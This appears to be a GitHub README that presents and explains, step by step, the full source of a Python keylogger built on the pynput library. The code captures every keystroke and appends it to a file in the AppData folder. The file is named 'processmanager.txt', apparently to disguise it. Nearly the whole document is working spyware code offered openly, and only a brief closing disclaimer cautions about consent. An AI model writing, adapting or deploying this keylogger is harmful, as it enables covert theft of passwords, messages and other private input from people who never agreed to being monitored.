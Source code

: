 # Key_Logger

This code is a simple keylogger written in Python using the `pynput` library. A keylogger is a program that records the keystrokes on a computer. Let me break down the code and explain each part:

1. **Importing Libraries:**
    ```python
    import os
    from pynput.keyboard import Listener
    ```
   - The code imports the necessary libraries: `os` for operating system-related functionalities and `Listener` from `pynput.keyboard` for monitoring keyboard events.

2. **Global Variables:**
    ```python
    keys = []
    count = 0
    path = os.environ['appdata'] + '\\processmanager.txt'
    ```
   - `keys`: A list to store the pressed keys.
   - `count`: A counter to keep track of the number of keys pressed before writing to the file.
   - `path`: The path to the file where the keystrokes will be logged. The file is named `processmanager.txt` and is stored in the `appdata` directory.

3. **on_press Function:**
    ```python
    def on_press(key):
        global keys, count 
        keys.append(key)
        count += 1

        if count >= 1:
            count = 0
            write_file(keys)
            keys = []
    ```
   - This function is called whenever a key is pressed.
   - It appends the pressed key to the `keys` list and increments the `count`.
   - When `count` reaches a certain threshold (in this case, 1), it resets the count, calls `write_file` to log the keys, and clears the `keys` list.

4. **write_file Function:**
    ```python
    def write_file(keys):
        with open(path, 'a') as f:
            for key in keys:
                k = str(key).replace("'", "")
                if k.find('backspace') > 0:
                    f.write(' Backspace ')
                elif k.find('enter') > 0:
                    f.write('\n')
                elif k.find('shift') > 0:
                    f.write(' Shift ')
                elif k.find('space') > 0:
                    f.write(' ')
                elif k.find('caps_lock') > 0:
                    f.write(' caps_lock ')
                elif k.find('Key'):
                    f.write(k)
    ```
   - This function writes the logged keys to the specified file.
   - It iterates through the `keys` list, processes each key, and writes the corresponding text to the file. Certain keys like 'backspace', 'enter', 'shift', 'space', and 'caps_lock' are handled specially.

5. **Listener and Main Execution:**
    ```python
    with Listener(on_press=on_press) as listener:
        listener.join()
    ```
   - This block sets up a keyboard listener using `pynput`.
   - The `on_press` function is specified as the callback function for handling key presses.
   - The listener is started with `listener.join()`, and it will continue running until it is stopped manually (typically by terminating the script).

Note: Keyloggers can be misused for unethical purposes, and using them without proper consent is illegal. Always ensure that you have the right to monitor or log keyboard activities, and use such tools responsibly and ethically.
